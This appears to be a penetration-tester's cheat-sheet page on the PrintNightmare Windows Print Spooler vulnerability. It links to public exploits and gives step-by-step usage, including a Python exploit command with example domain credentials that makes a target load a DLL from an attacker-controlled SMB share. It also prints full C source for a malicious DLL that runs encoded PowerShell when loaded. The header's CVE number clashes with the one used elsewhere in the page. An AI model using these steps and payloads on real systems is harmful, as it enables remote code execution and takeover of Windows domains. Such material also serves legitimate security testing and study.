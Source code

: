 # PrintNightmare

**CVE-2021-16751, CVE-2021-34527**




## Exploits



### C++ (Forked from Original)

RCE:

* [https://github.com/afwu/PrintNightmare](https://github.com/afwu/PrintNightmare)

LPE:

* [https://github.com/hlldz/CVE-2021-1675-LPE](https://github.com/hlldz/CVE-2021-1675-LPE)



### Python (impacket)

RCE:

* [https://github.com/cube0x0/CVE-2021-1675/blob/main/CVE-2021-1675.py](https://github.com/cube0x0/CVE-2021-1675/blob/main/CVE-2021-1675.py)


#### Usage

1. Prepare [an SMB share with anonymous authentication](/pentest/infrastructure/ad/smb.md#smb-share-with-null-authentication) allowed:
2. Generate an evil DLL: *msfvenom* / `adduser` ([1](https://github.com/newsoft/adduser), [2](https://github.com/calebstewart/CVE-2021-1675/blob/main/nightmare-dll/nightmare/dllmain.cpp)) / custom (see example below, `pwn.c`).
3. Run the exploit:

```
$ python CVE-2021-1675.py megacorp.local/snovvcrash:'Passw0rd!'@192.168.1.11 '\\10.10.13.37\share\pwn.dll'
```

{% code title="pwn.c" %}
```c
// x86_64-w64-mingw32-gcc pwn.c -o pwn.dll -shared

#include <windows.h>
#include <stdlib.h>
#include <stdio.h>

// Default function that is executed when the DLL is loaded
void Entry() {
    system("powershell -enc <BASE64_PWSH_CODE>");
}

BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) {
  switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH:
      CreateThread(0, 0, (LPTHREAD_START_ROUTINE)Entry, 0, 0, 0);
      break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
      break;
  }
  return TRUE;
}
```
{% endcode %}

An example on configuring and abusing RBCD on a DC and DCSyncing the domain 👉🏻 [here](https://snovvcrash.rocks/2021/06/30/leveraging-printnightmare-to-abuse-rbcd.html).



### C\#

RCE + LPE:

* [https://github.com/cube0x0/CVE-2021-1675/tree/main/SharpPrintNightmare](https://github.com/cube0x0/CVE-2021-1675/tree/main/SharpPrintNightmare)



### PowerShell

LPE:

* [https://github.com/calebstewart/CVE-2021-1675](https://github.com/calebstewart/CVE-2021-1675)




## Mitigation

* [https://github.com/LaresLLC/CVE-2021-1675](https://github.com/LaresLLC/CVE-2021-1675)
